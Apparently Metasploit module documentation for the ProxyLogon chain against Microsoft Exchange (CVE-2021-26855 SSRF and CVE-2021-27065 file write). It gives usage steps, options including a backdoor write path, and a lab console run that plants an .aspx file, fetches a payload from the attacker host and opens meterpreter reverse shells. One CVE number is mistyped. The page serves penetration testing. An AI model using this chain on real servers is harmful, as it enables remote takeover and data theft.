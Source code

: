 ## Vulnerable Application

CVE-2021-28855 is a pre-authentication SSRF (Server Side Request Forgery) which allows an attacker to
bypass authentication by sending specially crafted HTTP requests. This vulnerability is part of an attack
chain used to perform an RCE (Remote Code Execution).

CVE-2021-27065 is a post-auth arbitrary-file-write vulnerability to get code execution and the second part
of ProxyLogon attack chain.

This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010).

### Introduction

This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the
authentication, impersonating as the admin (CVE-2021-26855) and write arbitrary file (CVE-2021-27065) to
get the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft
Exchange Server.

All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxylogon_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### EMAIL

A known email address for this organization.

### METHOD

HTTP Method to use for the check (only). Default: POST

## Advanced Options

### ExchangeBasePath

The base path where exchange is installed. Default: C:\Program Files\Microsoft\Exchange Server\V15

### ExchangeWritePath

The path where you want to write the backdoor. Default: owa\auth

You can for example, define to: ecp\auth

### MapiClientApp

This is MAPI client version sent in the request.

### MaxEntries

Max counter loop to wait for OAB Virtual Dir reset. Default: 30

### TIMEOUT

The number of seconds to wait for a reply from a HTTP request. Default: 15

## Scenarios

```
msf6 exploit(windows/http/exchange_proxylogon_rce) > options 

Module options (exploit/windows/http/exchange_proxylogon_rce):

   Name     Current Setting           Required  Description
   ----     ---------------           --------  -----------
   EMAIL    gaston.lagaffe@pwned.lab  yes       A known email address for this organization
   METHOD   POST                      yes       HTTP Method to use for the check (Accepted: GET, POST)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.20.2.112              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    443                       yes       The target port (TCP)
   SSL      true                      no        Negotiate SSL/TLS for outgoing connections
   SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                            no        The URI to use for this exploit (default is random)
   VHOST                              no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.20.2.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Dropper


msf6 exploit(windows/http/exchange_proxylogon_rce) > run

[*] Started reverse TCP handler on 172.20.2.12:4444 
[*] Using auxiliary/scanner/http/exchange_proxylogon as check
[+] https://172.20.2.112:443 - The target is vulnerable to CVE-2021-26855.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable
[*] https://172.20.2.112:443 - Attempt to exploit for CVE-2021-26855
[*] Internal server name (EX02)
[*] https://172.20.2.112:443 - Sending autodiscover request
[*] Server: c7f46eae-bac1-49e7-8502-afe90609ea7f@pwned.lab
[*] LegacyDN: /o=Pwned Exch2k13-HA/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=683c605c88c14fcca1f5e74d0d136461-Gaston
[*] https://172.20.2.112:443 - Sending mapi request
[*] SID: S-1-5-21-3876225949-3666446388-246247518-1156 (gaston.lagaffe@pwned.lab)
[*] https://172.20.2.112:443 - Sending ProxyLogon request
[*] Try to get a good msExchCanary (by patching user SID method)
[*] ASP.NET_SessionId: a4fd3b7a-5835-419b-a6d1-0fc7e6570639
[*] msExchEcpCanary: N2LyPutF3EeUa1GvrAh5pK2NzUjC69gIXx5QmTG8m_1hFOyUrbb7igvdhFcRO2SK54d6VIAd8F8.
[*] OAB id: ee967fff-2665-4333-b396-164b9c58495c (OAB (Default Web Site))
[*] https://172.20.2.112:443 - Attempt to exploit for CVE-2021-27065
[*] Prepare the payload on the remote target
[*] Write the payload on the remote target
[!] Wait a lot (0)
[+] Yeeting windows/x64/meterpreter/reverse_tcp payload at 172.20.2.112:443
[*] Using URL: http://0.0.0.0:8080/zHDOA5lOrSPE
[*] Local IP: http://172.20.2.12:8080/zHDOA5lOrSPE
[*] Client 172.20.2.112 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0) requested /zHDOA5lOrSPE
[*] Sending payload to 172.20.2.112 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0)
[*] Client 172.20.2.112 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0) requested /zHDOA5lOrSPE
[*] Sending payload to 172.20.2.112 (Mozilla/5.0 (Windows NT; Windows NT 6.3; fr-FR) WindowsPowerShell/4.0)
[*] Sending stage (200262 bytes) to 172.20.2.112
[*] Meterpreter session 7 opened (172.20.2.12:4444 -> 172.20.2.112:57328) at 2021-03-18 21:05:01 +0400
[*] Sending stage (200262 bytes) to 172.20.2.112
[*] Meterpreter session 8 opened (172.20.2.12:4444 -> 172.20.2.112:57329) at 2021-03-18 21:05:01 +0400
[*] Server stopped.
[!] This exploit may require manual cleanup of 'C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\ecp\auth\GoWdK.aspx' on the target

meterpreter > 
```

## References

1. <https://proxylogon.com/>
2. <http://aka.ms/exchangevulns>
3. <https://www.praetorian.com/blog/reproducing-proxylogon-exploit>
4. <https://testbnull.medium.com/ph%C3%A2n-t%C3%ADch-l%E1%BB%97-h%E1%BB%95ng-proxylogon-mail-exchange-rce-s%E1%BB%B1-k%E1%BA%BFt-h%E1%BB%A3p-ho%C3%A0n-h%E1%BA%A3o-cve-2021-26855-37f4b6e06265>
